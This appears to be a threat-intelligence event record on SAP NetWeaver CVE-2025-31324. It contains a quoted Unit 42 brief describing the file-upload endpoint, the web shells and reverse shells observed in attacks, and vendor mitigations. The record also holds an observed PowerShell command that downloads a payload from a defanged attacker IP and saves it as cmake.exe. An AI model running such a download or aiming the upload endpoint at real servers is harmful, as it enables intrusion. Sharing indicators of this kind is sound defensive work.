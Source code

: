 ### script — Object describing a computer program written to be run in a special run-time environment. The script or shell script can be used for malicious activities but also as support tools for threat analysts.
* [Other] text: powershell Invoke-WebRequest -Uri "hxxp://65.49.235[.]210/download/2.jpg" -OutFile "cmake.exe"
* [Other] text: PowerShell
* [Other] text: Attempting to download unknown payload
* [Other] text: Malicious

### report — Report object to describe a report along with its metadata.
* [External analysis] link: https://unit42.paloaltonetworks.com/threat-brief-sap-netweaver-cve-2025-31324/
* [Other] text: On April 24, 2025, SAP disclosed CVE-2025-31324, a critical vulnerability with a CVSS score of 10.0 affecting the SAP NetWeaver's Visual Composer Framework, version 7.50. This threat brief shares a brief overview of the vulnerability and our analysis, and also includes details of what we’ve observed through our incident response services and telemetry.

This vulnerability allows unauthenticated users to upload arbitrary files to an SAP NetWeaver application server, leading to potential remote code execution (RCE) and full system compromise. Exploitation is achieved by sending specially crafted HTTP requests to the /developmentserver/metadatauploader endpoint. We have observed attackers leveraging this vulnerability to deploy web shells (e.g., helper.jsp and cache.jsp) for persistent access and subsequent command execution.

In our incident response cases and telemetry, we observed attackers exploiting this vulnerability to deploy, for example, reverse shell tools and a reverse SSH SOCKS proxy using a variety of network infrastructure.

We recommend that users of SAP NetWeaver refer to official documentation and instructions from SAP for guidance.

Palo Alto Networks customers receive protections from and mitigations for CVE-2025-31324 in the following ways:

    The Next-Generation Firewall with the Advanced Threat Prevention security subscription can help block attacks using best practices via Threat Prevention signature 96181.
    Cortex Xpanse has the ability to identify internet-exposed SAP NetWeaver applications, including version information, on the public internet and escalate these findings to defenders. These findings are also available for Cortex XSIAM customers who have purchased the ASM module.
    Advanced URL Filtering and Advanced DNS Security identify known domains and IP addresses associated with this activity as malicious.

The Unit 42 Incident Response team can also be engaged to help with a compromise or to provide a proactive assessment to lower your risk.
* [Other] text: Threat Brief: CVE-2025-31324
* [Other] text: Blog
